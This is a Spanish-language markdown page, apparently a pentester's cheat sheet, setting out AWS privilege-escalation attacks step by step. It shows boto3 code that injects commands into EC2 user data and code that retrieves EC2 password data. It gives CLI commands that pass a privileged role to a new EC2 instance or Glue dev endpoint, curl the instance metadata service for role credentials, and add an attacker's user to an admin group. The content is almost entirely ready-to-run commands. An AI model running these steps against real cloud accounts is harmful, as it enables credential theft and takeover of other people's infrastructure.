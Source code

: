 # Inyección de código en user data

El user data es una funcionalidad de AWS que permite proporcionar scripts o instrucciones que se ejecutan al iniciar la instancia.

#### Permisos necesarios

- ec2:StopInstances
- ec2:ModifyInstanceAttribute
- ec2:StartInstances

        import boto3
        
        # Crear un cliente de EC2
        ec2_client = boto3.client('ec2')
        
        # Definir el ID de la instancia EC2
        instance_id = 'i-1234567890abcdef0'
        
        # Detener la instancia EC2
        ec2_client.stop_instances(InstanceIds=[instance_id])
        
        # Modificar los datos de usuario de la instancia EC2 para ejecutar comandos maliciosos
        user_data_script = '#!/bin/bash\n\nmalicious_command\n'
        ec2_client.modify_instance_attribute(
            InstanceId=instance_id,
            UserData={'Value': user_data_script}
        )
        
        # Iniciar la instancia EC2
        ec2_client.start_instances(InstanceIds=[instance_id])

---

# Recuperación de contraseñas de un EC2

#### Permisos requeridos

- ec2:GetPasswordData

        import boto3
        
        def retrieve_ec2_password(instance_id):
            # Crear un cliente de EC2
            client = boto3.client('ec2')
            
            # Recuperar los datos de la contraseña para la instancia dada
            response = client.get_password_data(InstanceId=instance_id)
            
            # Devolver los datos de la contraseña
            return response['PasswordData']

---
# CreateEC2WithExistingIP

Para este ataque el usuario malicioso creará una nueva instancia de EC2 a la que tendrá acceso y le transferirá un rol de servicio/perfil con permisos privilegiados de una instancia existente.

#### Permisos requeridos:

- iam:PassRole
- ec2:RunInstances

#### Se necesitará:

- imagen AMI
- tipo de instancia
- IAM instance profile: Nombre o ARN de un perfil de instancia de IAM con privilegios elevados.
- Key-name: CLave ssh (creadas por nosotros)
- Id de un security group

        aws ec2 run-instances --image-id <ami> --instance-type t2.micro --iam-instance-profile Arn=<arn> --key-name "<nombre_del_archivo_key>" --security-group-ids <id_security_group> --region <region> --profile <perfil_atacante>


##### Una vez creada, buscaremos información de la instancia para obtener la ip pública

        aws ec2 describe-instances --instance-id <id> --region <region> --profile <perfil_atacante>

##### Accedemos a la instancia por medio de SSH

        ssh ec2-user@35.175.174.111 -i RSA

##### Una vez adentro de la EC2 listamos nuestros privilegios para ver si se asignó el rol

        aws sts get-caller-identity
##### Si el rol es de administrador, podemos sumar a nuestro usuario a la el grupo de administradores y continuar auditando

        aws iam add-user-to-group --group-name <grupo_admins> --user-name <user_atacante>

---

# PassExistingRoleToNewGlueDevEndpoint

El fin de este ataque es crear un entorno de desarrollo al que adjuntaremos un rol elevado. Luego aprovecharemos esta instancia para consultar los metadatos y extraer las credenciales del rol para luego impersonarlo.

#### Permisos necesarios

- iam:PassRole 
- glue:CreateDevEndpoint
- glue:GetDevEndpoints

##### 1) Creamos una llave SSH

        ssh-keygen

##### 2) Creamos el endpoint de desarrollo

        aws glue create-dev-endpoint --endpoint-name privesctest --role-arn <ARN_rol_a_adjuntar> --public-key file:///home/hacker/.ssh/id_rsa.pub --profile <perfil_atacante>

##### 3)Colectamos el ip público de la instancia

        aws glue get-dev-endpoint --endpoint-name privesctest --profile <perfil_atacante>

##### 4) Nos conectamos por ssh

        ssh glue@ec2-18-119-9-156.us-east-2.compute.amazonaws.com -i /home/hacker/.ssh/id_rsa

##### 5) hacemos un curl a la api interna para obtener las credenciales de un rol

        curl http://169.254.169.254/latest/meta-data/iam/security-credentials/<rol>

##### 6) Creamos un nuevo perfil en una nueva consola de AWS y nos logueamos con las credenciales y agregamos a nuestro user al grupo con privilegios

        aws iam add-user-to-group --group-name <grupo_admins> --user-name <user_atacante>

        


        
